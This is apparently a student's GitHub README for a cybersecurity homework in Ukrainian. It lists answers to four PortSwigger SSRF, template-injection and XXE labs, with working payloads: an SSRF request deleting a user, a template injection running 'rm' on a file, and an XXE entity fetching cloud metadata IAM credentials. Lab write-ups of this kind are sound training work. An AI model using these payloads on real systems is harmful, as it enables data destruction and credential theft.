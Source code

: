 # cybersecurity_homework11
Attacks on the server

Зробіть наступні лабораторні роботи.

1)(https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost) 
Відповідь : https://github.com/redbersdev/cybersecurity_homework11/blob/main/photo_2023-07-07_23-27-28.jpg

2)(https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)
Відповідь : https://github.com/redbersdev/cybersecurity_homework11/blob/main/photo_2023-07-07_23-28-29.jpg 
( payload : http:192.168.0.251:8080/admin/delete?username=carlos)

3)(https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)
Відповідь : https://github.com/redbersdev/cybersecurity_homework11/blob/main/photo_2023-07-07_23-28-36.jpg  
( payload: <%=+system("rm+/home/carlos/morale.txt")+%> )

Обов'язково разом зі скріншотом виконаної лабораторної надсилайте пейлоад або послідовність дій, які привели до успішної компроментації.

4) (https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf )
Відповідь : https://github.com/redbersdev/cybersecurity_homework11/blob/main/photo_2023-07-07_23-28-43.jpg
payload:  <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE random [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&ssrf;</productId><storeId>1</storeId></stockCheck>

